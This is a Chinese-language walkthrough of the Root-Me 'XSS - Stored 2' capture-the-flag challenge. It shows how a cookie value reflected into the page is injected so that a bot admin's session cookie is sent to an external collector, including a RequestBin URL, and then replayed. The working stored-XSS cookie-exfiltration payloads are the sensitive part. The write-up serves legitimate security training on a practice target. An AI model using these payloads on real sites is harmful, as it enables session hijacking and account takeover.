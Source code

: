 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-client/xss-stored2/)]

------

很直白告诉了告诉了我们是存储型 XSS 题型。注意题目要求：

`Steal the administrator session's cookie and go in the admin section.`

意思就是：**窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

注意到在挑战页面顶部有个 `admin` 超链，点击后 URL 多了个请求参数 `?section=admin` ， 但是页面内容无变化，猜测这就是需要使用 administrator 的 cookie 才能访问的页面。

------------


挑战页面有两个输入口，但是测试过，这两个输入框都对所有 html 标签字符做了过滤，无法注入。

仔细观察，发现提交输入后，页面会回显 3 个内容：

- 输入的 Title
- 输入的 Content
- 右上角的 Status 值（**似乎固定为 invite？其实不然！**）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/01.png)

> 多刷新几次页面，不难注意到这台靶机后台有个 admin-robot 在定时读取提交的消息。

------------

打开浏览器开发者工具：

- 切到 Network 查看页面cookie ，发现 `status=invite` 是其中一个  cookie 值（另一个是当前用户的 `uid`）。
- 切到 Elements  查看提交回显的内容，发现 `invite` 是 &lt;i&gt; 标签的 class 值

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/02.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/03.png)


------------

使用 Burp Suite -> Repeater 任意修改 cookie 的 `status` 值后再发送请求，发现回显的内容中的 &lt;i&gt; 标签的 class 值也随之改变，说明**这就是 XSS 注入点**。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/04.png)


------------

尝试构造 payloads ： `"><script>alert(1)</script>` （关闭 &lt;i&gt; 标签再注入 &lt;script&gt;）

通过 Burp Suite -> Repeater 提交，页面弹出警告对话框，注入成功。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/05.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/06.png)

------------

至此思路很明确了：通过 cookie 把包含 payloads 消息存储到后台，当 admin-robot 读取到这条消息时，就把这个机器人的 cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么构造一个这样的 payloads 即可实现 cookie 窃取：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))</script>`

其中对于 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/q9vld7q9`，则把 payloads 修改为：

`"><script>document.write(%22<img src=http://requestbin.fullcontact.com/q9vld7q9?%22.concat(document.cookie).concat(%22 />%22))</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/07.png)

------------

提交 payloads 后，好不容易等到  admin-robot 读取了消息，但是在 HTTP 服务器查看  admin-robot 发送过来的请求却发现，cookie 只有 `status` 参数，缺失了最重要的 `uid` 参数。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/08.png)


------------


其实从 Burp Suite -> Repeater 可以发现， cookie 本来完整的值是这样的（`status` 和 `uid` 之间有**空格**）：

`status=invite; uid=wKgbZFxF4fV0HH+nA2kGAg==`

导致构造前面的 payloads 提交后， 因为这个空格使得 cookie 被拆解成两部分：

- 前半部分的 `status` 作为 &lt;img&gt; 标签的 `src` 属性被提交到 HTTP 服务器
- 后半部分的 `uid` 则成为 &lt;img&gt; 标签的一个独立属性

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/09.png)


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/10.png)

------------

因此，为了把 `uid` 的值也窃取，需要把 payloads 做了小改动，即把 `document.cookie` 的空格处理掉。

在这里我把空格替换成 `&` ，最终 payloads 如下：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/11.png)

------------


提交后成功从 HTTP 服务器收到 `ADMIN_COOKIE` ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/12.png)

------------

但是注意不要急着完成挑战，因为这并不是密码，题目要求的是： **窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

把从 HTTP 服务器收到的 cookie 的 `&` 改回去空格，得到真正的  cookie 值：

`status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`

将其修改到 Burp Suite -> Repeater 的请求 Cookie 后访问页面：

`http://challenge01.root-me.org/web-client/ch19/?section=admin`

得到密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/13.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
